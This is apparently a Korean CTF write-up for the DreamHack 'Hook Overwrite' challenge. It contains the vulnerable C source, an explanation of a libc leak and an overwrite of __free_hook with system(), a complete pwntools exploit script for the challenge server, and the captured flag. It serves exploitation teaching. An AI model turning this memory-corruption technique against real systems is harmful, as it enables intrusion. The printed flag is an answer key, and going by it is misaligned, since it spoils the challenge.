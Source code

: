 # [DreamHack] Hook Overwrite

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Hook Overwrite에서 실습하는 문제입니다.
>
> Release: [fho.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8548585/fho.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160252918-e968dfa5-283f-42bc-a851-6eefb7a62351.png)

## Analysis

```c
int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

`[1] Stack buffer overflow`에서 발생하는 BOF를 이용하여 `main()`의 return address를 leak하면 libc 주소를 구할 수 있다.

`[2] Arbitary-Address-Write`에서 원하는 주소에 원하는 8바이트 값을 쓸 수 있고, `[3] Arbitrary-Address-Free`에서 원하는 주소를 인자로 `free()`를 호출할 수 있다. free hook을 `system()`의 주소로 덮고, `"/bin/sh"` 문자열의 주소를 인자로 `free()`를 호출하면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if REMOTE:
    r = remote('host1.dreamhack.games', 8949)
    libcstartmain_offset = 0x21b10
    system_offset = 0x4f550
    binsh_offset = 0x1b3e1a
    freehook_offset = 0x3ed8e8
else:
    r = process('./release/fho')
    libcstartmain_offset = 0x21ba0
    system_offset = 0x4f420
    binsh_offset = 0x1b3d88
    freehook_offset = 0x3ed8e8


# leak libc

r.sendafter('Buf: ', 'a' * 0x48)
r.recvuntil('Buf: ' + 'a' * 0x48)
libcstartmain = u64(r.recvn(6).ljust(8, b'\x00')) - 231  # __libc_start_main()
libc = libcstartmain - libcstartmain_offset
system = libc + system_offset  # system()
binsh = libc + binsh_offset  # "/bin/sh"
freehook = libc + freehook_offset  # __free_hook


# overwrite free hook with system()

r.sendlineafter('To write: ', str(freehook))
r.sendlineafter('With: ', str(system))


# call free("/bin/sh")

r.sendlineafter('To free: ', str(binsh))


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 8949: Done
[*] Switching to interactive mode
$ cat flag
DH{584ea800b3d6ff90857aa4300ba42218}
```